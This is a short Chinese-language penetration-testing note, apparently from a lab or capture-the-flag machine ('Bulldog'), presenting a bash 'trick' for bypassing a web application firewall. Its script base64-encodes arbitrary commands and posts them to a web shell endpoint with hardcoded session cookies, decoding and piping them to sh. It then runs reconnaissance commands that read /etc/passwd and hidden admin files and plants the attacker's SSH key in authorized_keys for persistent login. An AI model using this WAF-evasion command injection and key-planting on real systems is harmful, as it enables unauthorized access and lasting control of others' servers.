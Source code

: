 3）编写bash小技巧： shell脚本绕过waf
---------
#!/bin/bash

CMD=$(echo $1|base64)

curl -s 'http://192.168.4.254/dev/shell/' \
-H 'Host: 192.168.4.254' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
-H 'Cookie: csrftoken=ue6rDl1epG56M9ti4JzYn91VWYfRDqSj; sessionid=k3hpm33ed7gimqo0uj0h4bo8vpu04vpe' \
--data "csrfmiddlewaretoken=ue6rDl1epG56M9ti4JzYn91VWYfRDqSj&command=echo '$CMD'|base64 -d|sh" \
|tail -n +40|head -n -19
---------

./shell.sh 'uname -a;id;whoami;cat /etc/passwd|grep bash;ls -al /home'
./shell.sh 'cat /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp'
./shell.sh 'cat /home/bulldogadmin/.hiddenadmindirectory/note'
./shell.sh 'ls -al /etc/cron.d/'


利用脚本写入ssh rsa key：
./shell.sh 'grep authorized_keys /etc/ssh/sshd_config'
./shell.sh 'mkdir /home/django/.ssh'

需要将id_rsa.pub密钥移动到/home/django/.ssh文件夹中：
./shell.sh "echo $(cat ~/.ssh/id_rsa.pub) > /home/django/.ssh/authorized_keys"

ssh django@192.168.4.254 -p 23 -i id_rsa





















































